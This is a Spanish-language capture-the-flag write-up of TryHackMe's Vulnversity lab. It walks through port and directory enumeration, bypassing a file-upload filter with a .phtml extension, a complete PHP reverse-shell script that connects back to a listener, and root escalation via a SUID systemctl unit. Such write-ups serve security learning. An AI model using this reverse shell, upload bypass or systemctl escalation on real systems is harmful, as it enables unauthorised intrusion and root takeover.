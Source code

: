 # Vulnversity — Writeup

**Fecha:** 28-09-2025
**Plataforma:** TryHackMe

## TL;DR

Se encontraron servicios FTP, SSH, Samba y un servicio web con un directorio de subida (/internal). Subiendo un webshell .phtml se consiguió una reverse shell como www-data. Desde esa cuenta se escaló privilegios aprovechando /bin/systemctl con permiso SUID para ejecutar una unidad systemd que leyó /root/root.txt a /tmp/flag.

---

## Enumeration (nmap)

```bash
nmap -sV -sC --open $IP -oN scan.txt
```

**Comment:** `-sV` detecta versiones de servicios; `-sC` ejecuta scripts por defecto; `--open` muestra solo los puertos abiertos; `-oN` guarda la salida en un archivo normal.

**Result**
```bash
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.5
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 19:78:f4:6e:d8:11:72:e7:ba:60:0c:d2:ba:c9:a3:e7 (RSA)
|   256 e1:6e:3e:95:e0:bd:78:db:e9:aa:74:44:67:f0:a6:8e (ECDSA)
|_  256 8e:8d:24:7f:0d:77:52:20:40:2b:9e:ec:b3:e9:50:a8 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
3128/tcp open  http-proxy  Squid http proxy 4.10
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.10
3333/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Vuln University
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -1s
|_nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2025-09-27T20:40:34
|_  start_date: N/A
```
**Summary**

* 21/tcp open ftp (vsftpd/3.0.5)
* 22/tcp open  ssh (OpenSSH 8.2p1)
* 139/445/tcp open Samba (smbd)
* 3128/tcp open http-proxy (Squid/4.10)
* 3333/tcp open  http (Apache/2.4.41)

---

## Web Enumeration (Gobuster)

```bash
gobuster dir -u http://$IP:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

**Comment:** `-u` url target; `-w` ruta de wordlist.

**Result**
```bash
/images               (Status: 301) [Size: 322] [--> http://$IP:3333/images/]                                                                   
/css                  (Status: 301) [Size: 319] [--> http://$IP:3333/css/]                                                                      
/js                   (Status: 301) [Size: 318] [--> http://$IP:3333/js/]                                                                       
/internal             (Status: 301) [Size: 324] [--> http://$IP:3333/internal/] 
```
**Relevant Result**

* `/internal`, directorio web para subir archivos.
  
---

## Burp Suite

**Http POST**

Interceptamos la petición POST al subir un archivo a la web con el proxy de BurpSuite, la enviamos al Intruder y marcamos la extensión.
```bash
POST /internal/index.php HTTP/1.1
Host: $IP:3333
Content-Length: 291
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://$IP:3333
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJ8PkprBlb27KbdYV
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://$IP:3333/internal/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryJ8PkprBlb27KbdYV
Content-Disposition: form-data; name="file"; filename="test.§php§"
Content-Type: application/x-php

test

------WebKitFormBoundaryJ8PkprBlb27KbdYV
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundaryJ8PkprBlb27KbdYV--
```

**Find extension**

Aplicamos una wordlist de extensiones (phpext.txt) como payload para identificar la correcta:
<details>
	<summary><i>phpext.txt</i></summary>
		
		.php
		.php3
		.php4
		.php5
		.phtml
	
</details>

**Result**
* Extensión permitida: `.phtml`

---

## Foothold

**Reverse Shell**
<details><summary><i>php-reverse-shell.phtml</i></summary>

```bash	
	<?php
	set_time_limit (0);
	$VERSION = "1.0";
	$ip = '$IP';  // CHANGE THIS
	$port = 1234;       // CHANGE THIS
	$chunk_size = 1400;
	$write_a = null;
	$error_a = null;
	$shell = 'uname -a; w; id; /bin/sh -i';
	$daemon = 0;
	$debug = 0;
	
	//
	// Daemonise ourself if possible to avoid zombies later
	//
	
	// pcntl_fork is hardly ever available, but will allow us to daemonise
	// our php process and avoid zombies.  Worth a try...
	if (function_exists('pcntl_fork')) {
		// Fork and have the parent process exit
		$pid = pcntl_fork();
		
		if ($pid == -1) {
			printit("ERROR: Can't fork");
			exit(1);
		}
		
		if ($pid) {
			exit(0);  // Parent exits
		}
	
		// Make the current process a session leader
		// Will only succeed if we forked
		if (posix_setsid() == -1) {
			printit("Error: Can't setsid()");
			exit(1);
		}
	
		$daemon = 1;
	} else {
		printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
	}
	
	// Change to a safe directory
	chdir("/");
	
	// Remove any umask we inherited
	umask(0);
	
	//
	// Do the reverse shell...
	//
	
	// Open reverse connection
	$sock = fsockopen($ip, $port, $errno, $errstr, 30);
	if (!$sock) {
		printit("$errstr ($errno)");
		exit(1);
	}
	
	// Spawn shell process
	$descriptorspec = array(
	   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
	   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
	   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
	);
	
	$process = proc_open($shell, $descriptorspec, $pipes);
	
	if (!is_resource($process)) {
		printit("ERROR: Can't spawn shell");
		exit(1);
	}
	
	// Set everything to non-blocking
	// Reason: Occsionally reads will block, even though stream_select tells us they won't
	stream_set_blocking($pipes[0], 0);
	stream_set_blocking($pipes[1], 0);
	stream_set_blocking($pipes[2], 0);
	stream_set_blocking($sock, 0);
	
	printit("Successfully opened reverse shell to $ip:$port");
	
	while (1) {
		// Check for end of TCP connection
		if (feof($sock)) {
			printit("ERROR: Shell connection terminated");
			break;
		}
	
		// Check for end of STDOUT
		if (feof($pipes[1])) {
			printit("ERROR: Shell process terminated");
			break;
		}
	
		// Wait until a command is end down $sock, or some
		// command output is available on STDOUT or STDERR
		$read_a = array($sock, $pipes[1], $pipes[2]);
		$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	
		// If we can read from the TCP socket, send
		// data to process's STDIN
		if (in_array($sock, $read_a)) {
			if ($debug) printit("SOCK READ");
			$input = fread($sock, $chunk_size);
			if ($debug) printit("SOCK: $input");
			fwrite($pipes[0], $input);
		}
	
		// If we can read from the process's STDOUT
		// send data down tcp connection
		if (in_array($pipes[1], $read_a)) {
			if ($debug) printit("STDOUT READ");
			$input = fread($pipes[1], $chunk_size);
			if ($debug) printit("STDOUT: $input");
			fwrite($sock, $input);
		}
	
		// If we can read from the process's STDERR
		// send data down tcp connection
		if (in_array($pipes[2], $read_a)) {
			if ($debug) printit("STDERR READ");
			$input = fread($pipes[2], $chunk_size);
			if ($debug) printit("STDERR: $input");
			fwrite($sock, $input);
		}
	}
	
	fclose($sock);
	fclose($pipes[0]);
	fclose($pipes[1]);
	fclose($pipes[2]);
	proc_close($process);
	
	// Like print, but does nothing if we've daemonised ourself
	// (I can't figure out how to redirect STDOUT like a proper daemon)
	function printit ($string) {
		if (!$daemon) {
			print "$string\n";
		}
	}
	
	?>
```

</details>

**Upload reverse shell php**
```bash
	http://$IP:3333/internal/
```	

**Execute Payload**
```bash
	http://$IP:3333/internal/uploads/php-reverse-shell.phtml
```

**Listen Port**
```bash
	nc -lvnp 4444             
	listening on [any] 4444 ...
	connect to [$IP] from (UNKNOWN) [$IP] 45390
	Linux $IP 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
	 14:46:58 up 3 min,  0 users,  load average: 0.82, 0.38, 0.14
	USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	$ whoami
	www-data
```

**Upgrade Shell**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Privilege Escalation

**Find SUID Files**
```bash
 find / -user root -perm -4000 -exec ls -ldb {} \;
```
**Exploit systemctl**

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
**Cat Flag**
```bash
	$ cat /tmp/flag
```
